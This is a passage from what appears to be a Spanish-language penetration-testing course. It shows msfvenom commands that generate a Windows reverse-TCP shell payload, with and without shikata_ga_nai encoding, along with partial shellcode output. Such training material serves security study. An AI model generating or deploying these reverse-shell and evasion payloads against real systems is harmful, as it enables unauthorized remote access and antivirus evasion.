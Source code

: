 #### Cambios en la Herramienta

Después de 2015, las actualizaciones a estos scripts han combinado sus funcionalidades dentro de la herramienta **msfvenom**, que se encarga de la generación de payloads y codificación. Hablaremos de msfvenom en detalle más adelante. A continuación, un ejemplo de cómo se vería la generación de payloads con el msfvenom actual:

### Generando Payload - Sin Codificación

```bash
sherlock28@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of perl file: 1674 bytes
my $buf = 
"\xda\xc1\xba\x37\xc7\xcb\x5e\xd9\x74\x24\xf4\x5b\x2b\xc9" .
"\xb1\x59\x83\xeb\xfc\x31\x53\x15\x03\x53\x15\xd5\x32\x37" .
"\xb6\x96\xbd\xc8\x47\xc8\x8c\x1a\x23\x83\xbd\xaa\x27\xc1" .
"\x4d\x42\xd2\x6e\x1f\x40\x2c\x8f\x2b\x1a\x66\x60\x9b\x91" .
"\x50\x4f\x23\x89\xa1\xce\xdf\xd0\xf5\x30\xe1\x1a\x08\x31" .
```

### Generando Payload - Con Codificación

```bash
sherlock28@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai

Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai succeeded with size 353 (iteration=1)
x86/shikata_ga_nai succeeded with size 380 (iteration=2)
x86/shikata_ga_nai chosen with final size 380
Payload size: 380 bytes
buf = ""
buf += "\xbb\x78\xd0\x11\xe9\xda\xd8\xd9\x74\x24\xf4\x58\x31"
buf += "\xc9\xb1\x59\x31\x58\x13\x83\xc0\x04\x03\x58\x77\x32"
buf += "\xe4\x53\x15\x11\xea\xff\xc0\x91\x2c\x8b\xd6\xe9\x94"
buf += "\x47\xdf\xa3\x79\x2b\x1c\xc7\x4c\x78\xb2\xcb\xfd\x6e"
buf += "\xc2\x9d\x53\x59\xa6\x37\xc3\x57\x11\xc8\x77\x77\x9e"
```

## Codificación Shikata Ga Nai

**Fuente:** [Hatching.io - Metasploit Payloads](https://hatching.io/blog/metasploit-payloads2/)

Si queremos observar el funcionamiento del codificador **shikata\_ga\_nai**, podemos consultar una publicación excelente aquí.
